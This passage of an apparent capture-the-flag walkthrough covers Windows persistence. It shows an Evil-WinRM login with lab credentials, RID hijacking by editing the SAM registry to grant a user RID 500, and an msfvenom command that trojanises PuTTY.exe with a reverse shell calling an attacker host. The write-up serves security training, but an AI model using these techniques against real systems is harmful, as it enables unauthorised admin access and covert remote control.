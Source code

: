 From here, we can log in using `Evil-WinRM` and obtain our second flag:

```bash
evil-winrm -i 10.10.55.203 -u thmuser2 -p Password321
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692398170962/5be80f1c-b131-4042-b8b5-fd26abe2ee48.jpeg){: .center-image }

### RID Hijacking

Another method to gain administrative privileges without actually being an administrator involves modifying registry values. When a user is created, they are assigned an identifier called the `RID`, which is universally recognized across the system. Upon login, the `LSASS` process retrieves the `RID` from the `SAM` registry and assigns a token based on the granted permissions. This is where we can manipulate the registry value to make Windows assign a specified user with an administrative access token.

By default, Windows configurations assign administrator accounts with `RID 500`. Regular accounts typically have `RID` values greater than or equal to `1000`.

Command to find RIDs for users:

```powershell
wmic useraccount get name,sid
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395934885/0daf9171-5cbf-475e-ad72-e17b1e532305.png){: .center-image }

As a proof of concept, we will assign `RID 500` to the `user3`. To achieve this, we need to access the `SAM` using Regedit; however, `SAM` is restricted to the `SYSTEM`, which means Administrators cannot edit it. We can work around this limitation by using `PsExec`, which is a part of `Sysinternals`.

```powershell
.\PsExec64.exe -i -s regedit
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395991782/ada4cbca-e8bc-43b8-ac4e-55de09bb54c6.png){: .center-image }

In Regedit, navigate to `HKLM\SAM\SAM\Domains\Account\Users\` to locate the key for user3 and modify the `RID`. Search for a key with the hexadecimal value `0x3F2`, which corresponds to `1010`. Change the bytes `F2 03` to `F4 01`, representing `RID 500`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396031637/f2e9cd13-2c9d-4384-bbee-6c7ec1270baa.png){: .center-image }

Log in via `RDP` using the `user3` account and retrieve `flag3.exe`.

### Backdooring Files

To create a backdoored `PuTTY.exe` using `msfvenom`, follow this method.

Payload:

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -b "\x00" -f exe -o puttyX.exe
```
